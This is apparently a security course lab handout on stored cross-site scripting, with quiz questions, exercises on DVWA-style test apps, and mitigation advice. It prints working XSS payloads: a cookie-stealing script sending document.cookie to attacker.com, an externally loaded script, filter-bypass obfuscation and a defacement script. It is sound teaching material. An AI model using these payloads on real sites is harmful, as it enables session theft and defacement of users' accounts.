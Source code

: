 # Lab 11 - Stored Cross-Site Scripting (XSS) Attacks

**Objective:**  
This lab will focus on **Stored Cross-Site Scripting (XSS) vulnerabilities**. Unlike reflected XSS, where malicious scripts are reflected in the server’s response, stored XSS occurs when the script is permanently stored on the server and executed whenever the affected content is accessed by users. Students will learn to identify and exploit stored XSS vulnerabilities in web applications.

---

### **Background / Scenario:**
Stored XSS is a dangerous vulnerability that allows an attacker to inject malicious code into a web application. This code is then stored on the server (for example, in a database), and every time a user views the affected page, the code is executed. This attack can lead to account hijacking, data theft, or even defacement of a website.

---

### **Required Resources:**
- Internet access
- A web browser with developer tools
- A vulnerable web application (like **DVWA** or **OWASP Juice Shop**) or a test environment for XSS

---

### **Instructions:**

#### **Part 1: Understanding Stored XSS**

1. **What is Stored XSS?**  
   Stored XSS occurs when an attacker inputs malicious data that is stored on the server and later executed in other users' browsers without validation. Unlike reflected XSS, the attack persists and can affect multiple users who visit the page.

---

2. **Question 1:**  
   As part of the Pixel Paradise pentest, you posted the following review:  
   **“Warlocks of Wonder is the greatest game of its type ever made!  
   `<script src="https://203.0.113.17/protego_test.js"></script>`”**  
   This script logs visits to the review page. What exploit have you created on the Pixel Paradise website?

   - A) Stored Cross-Site Scripting
   - B) HTTP Parameter Pollution
   - C) DOM-based Cross-Site Scripting
   - D) Reflected Cross-Site Scripting

---

#### **Part 2: Exploiting Stored XSS in a Product Review Page**

1. **Simulating a Stored XSS Attack:**  
   - Navigate to a review page in a vulnerable application.  
   - Post a comment or review that contains an XSS payload like:  
     ```html
     <script>alert('XSS Attack!');</script>
     ```
   - Refresh the page and see if the alert is triggered for every user who visits the page.

   **Question 2:**  
   - Were you able to inject and store malicious JavaScript on the review page?
   - What are the implications of a successful stored XSS attack?

---

#### **Part 3: Creating Malicious Scripts to Steal Data**

1. **Stealing Cookies with Stored XSS:**  
   - Modify the stored XSS payload to steal cookies from users by including a script like:  
     ```html
     <script>new Image().src="http://attacker.com/steal.php?cookie="+document.cookie;</script>
     ```
   - Post the malicious script as part of a review and check if the cookies of visitors are sent to the attacker's server.

   **Question 3:**  
   - What type of information can be stolen using stored XSS?
   - Explain how this could lead to session hijacking or unauthorized access.

---

#### **Part 4: Bypassing Input Filters**

1. **Obfuscating Payloads to Bypass Filters:**  
   Web applications may have basic filters to prevent XSS by blocking certain keywords or special characters. Use obfuscation techniques to bypass these filters:
   - Example:  
     ```html
     "<scr"+"ipt>alert('XSS')</scr"+"ipt>"
     ```
   - URL-encode the script:  
     ```html
     %3Cscript%3Ealert('XSS')%3C/script%3E
     ```

   **Question 4:**  
   - Were you able to bypass any input filters?
   - What techniques worked best to evade the security measures in place?

---

#### **Part 5: Crafting Persistent Payloads for Long-Term Exploits**

1. **Creating Persistent XSS Payloads:**  
   In a stored XSS attack, the malicious script is stored on the server for as long as the data persists. Craft a payload that creates a persistent issue, such as modifying the page or stealing session tokens repeatedly:
   - Example:  
     ```html
     <script>
       document.body.innerHTML = '<h1>Website Hacked</h1>';
     </script>
     ```

   **Question 5:**  
   - What is the difference between temporary reflected XSS attacks and persistent stored XSS attacks in terms of long-term impact on the application and users?

---

#### **Part 6: Detecting and Preventing Stored XSS Attacks**

1. **Mitigation Techniques for Stored XSS:**  
   - Input validation and output encoding: All input data should be validated and sanitized before being stored on the server. Output encoding should also be applied to ensure that any data displayed in the browser is safely rendered as text, not executable code.
   - Content Security Policy (CSP): A properly configured CSP can mitigate the impact of XSS by preventing the execution of unauthorized scripts.

   **Question 6:**  
   What are the best practices for preventing stored XSS in web applications?  
   *(Choose all that apply.)*

   - A) Sanitize user inputs and escape output
   - B) Block all special characters
   - C) Implement a Content Security Policy (CSP)
   - D) Disable JavaScript for all users
   - E) Validate user input on the server side

---

#### **Part 7: Real-World Stored XSS Case Study**

1. **Exploring Real Incidents:**  
   - Research a real-world case where a stored XSS vulnerability was exploited. Provide details about the incident, its impact, and how the vulnerability was discovered and patched.

   **Question 7:**  
   - How was stored XSS used in a real-world attack to compromise users or steal sensitive data?
   - What remediation steps were taken to prevent future occurrences?

---

### **Reflection Questions:**

- **Question 8:**  
   - Explain how stored XSS can have a more significant impact than reflected XSS. Why is stored XSS more dangerous in terms of user exposure and exploitation?

- **Question 9:**  
   - What steps should be taken by developers to ensure that user-generated content, such as comments or reviews, does not introduce security vulnerabilities like XSS?

---

### **Lab Conclusion:**
In this lab, students explored **Stored Cross-Site Scripting** vulnerabilities and learned how to identify, exploit, and mitigate such attacks. By understanding stored XSS, students will be better prepared to secure web applications against these types of persistent and dangerous exploits.

